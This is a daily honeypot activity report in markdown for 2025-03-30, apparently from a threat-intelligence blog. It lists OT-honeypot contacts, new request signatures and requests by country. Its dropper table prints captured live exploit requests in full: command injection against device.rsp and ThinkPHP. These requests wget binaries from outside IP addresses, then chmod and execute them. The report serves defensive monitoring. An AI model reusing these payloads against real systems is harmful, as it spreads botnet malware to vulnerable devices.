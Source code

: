 ```yaml
---
title: "Report: 2025-03-30 "
date: 2025-03-30
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-30
Interaction report on http service of various honeypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
Simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| FR               |                    |
| FR               |                    |

## botnet_dropper_behaviour
List of requests suspected of having stage 1 dropper behavior (programs designed to extract other files from their own code).
| remote_addr    | request                                                                                                                                                                                                                                                                                                       |
|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 87.121.84.30   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20arm7 HTTP/1.1                                                                                                 |
| 141.98.11.210  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20-rf%20parm7%3B%20wget%20http%3A%2F%2F193.32.162.27%2Fbins%2Fparm7%3B%20chmod%20777%20parm7%3B%20.%2Fparm7%20arm7 HTTP/1.1                                                                                                 |
| 141.98.11.27   | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+arm4+efefa7;wget+http:/\x5C/176.65.134.201/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.134.201/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 124.8.182.136  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |
| 101.69.248.251 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 123.240.58.26  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |
| 36.27.91.147   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 61.130.11.82   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 1.172.23.42    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |
| 58.58.30.134   | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                                                                                 |
| 61.231.225.60  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                     |

## request

List of requests of the day that have never been detected, other requests that have already been detected and archived in the [request database.](https://blog.shoggoth.industries/database/request_database/).

|     |   number_of_occurence | request                                                    |
|----:|----------------------:|:-----------------------------------------------------------|
| 183 |                     4 | POST /player HTTP/1.1                                      |
| 304 |                     1 | GET /odinhttpcall1743337271 HTTP/1.1                       |
| 305 |                     1 | GET /OdinHttpCall1743337271 HTTP/1.1                       |
| 306 |                     1 | GET /Odin/http/call1743337271 HTTP/1.1                     |
| 324 |                     1 | \x00\x0E8-\xD2\x8BsU\xA1I\x17\x00\x00\x00\x00\x00          |
| 333 |                     1 | \x00\x0E\x08Hs\xA8\x9F)\x1A\x98 \x00\x00\x00\x00\x00       |
| 334 |                     1 | \x00\x0E8Hs\xA8\x9F)\x1A\x98 \x00\x00\x00\x00\x00          |
| 357 |                     1 | \x00\x0E8MG;i\x12\x90\x98\xDA\x00\x00\x00\x00\x00          |
| 362 |                     1 | \x00\x0E8\x1Cz\x0B\x8C\xDA\x15\xF1\x9F\x00\x00\x00\x00\x00 |
| 385 |                     1 | \x00\x0E8\xBDY\xC6\x8C\xC6*                                |
| 411 |                     1 | \x00\x0E8\x80\xC9>\xE1V/_\xB1\x00\x00\x00\x00\x00          |
| 446 |                     1 | \x00\x0E81\xC6C20e\xA3\xC9\x00\x00\x00\x00\x00             |
| 447 |                     1 | GET /Authorization HTTP/1.1                                |
| 482 |                     1 | GET /odinhttpcall1743348762 HTTP/1.1                       |
| 483 |                     1 | GET /OdinHttpCall1743348762 HTTP/1.1                       |
| 484 |                     1 | GET /Odin/http/call1743348762 HTTP/1.1                     |
| 485 |                     1 | GET /socket.io/1/?t=1743323778311 HTTP/1.1                 |
| 486 |                     1 | GET /socket.io/1/?t=1743323991659 HTTP/1.1                 |
| 495 |                     1 | \x00\x0E8G\xDE\x93                                         |

## country_iso_code

List of country names and number of requests received by IPs located in these countries.
|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  1015 | NL                 |
|  1 |                   827 | BG                 |
|  2 |                   410 | US                 |
|  3 |                   180 | GB                 |
|  4 |                   139 | DE                 |
|  5 |                   120 | FR                 |
|  6 |                    89 | SC                 |
|  7 |                    84 | PL                 |
|  8 |                    82 | HK                 |
|  9 |                    48 | TW                 |
| 10 |                    41 | LT                 |
| 11 |                    38 | PT                 |
| 12 |                    28 | CN                 |
| 13 |                    28 | RU                 |
| 14 |                    24 | CA                 |
| 15 |                    20 | NG                 |
| 16 |                    17 | CH                 |
| 17 |                    17 | JP                 |
| 18 |                    15 | KR                 |
| 19 |                    13 | BR                 |
| 20 |                    10 | UA                 |
| 21 |                     9 | BE                 |
| 22 |                     8 | NO                 |
| 23 |                     7 | RO                 |
| 24 |                     6 | IN                 |
| 25 |                     6 | TR                 |
| 26 |                     5 | IR                 |
| 27 |                     5 | ZA                 |
| 28 |                     3 | SG                 |
| 29 |                     3 | VN                 |
| 30 |                     3 | IT                 |
| 31 |                     2 | AO                 |
| 32 |                     2 | AZ                 |
| 33 |                     1 | CL                 |
| 34 |                     1 | TH                 |
| 35 |                     1 | RS                 |
| 36 |                     1 | PK                 |
| 37 |                     1 | MY                 |
| 38 |                     1 | CZ                 |
| 39 |                     1 | AE                 |
